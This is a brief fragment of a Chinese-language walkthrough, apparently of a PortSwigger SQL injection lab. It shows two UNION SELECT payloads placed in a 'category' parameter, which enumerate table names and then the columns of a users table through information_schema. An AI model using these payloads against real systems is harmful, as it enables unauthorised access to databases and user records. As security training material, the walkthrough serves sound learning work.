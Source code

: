 
报表名 猜测用户信息在punlic里：**category=Gifts' union SELECT '1',table_name from information_schema.tables where table_schema='public'**

![image-20250711181007618](portswigger.assets/image-20250711181007618.png)

爆字段名：**category=Gifts' union SELECT '1',column_name from information_schema.columns where table_name='users_ddcldd'**

![image-20250711181048186](portswigger.assets/image-20250711181048186.png)
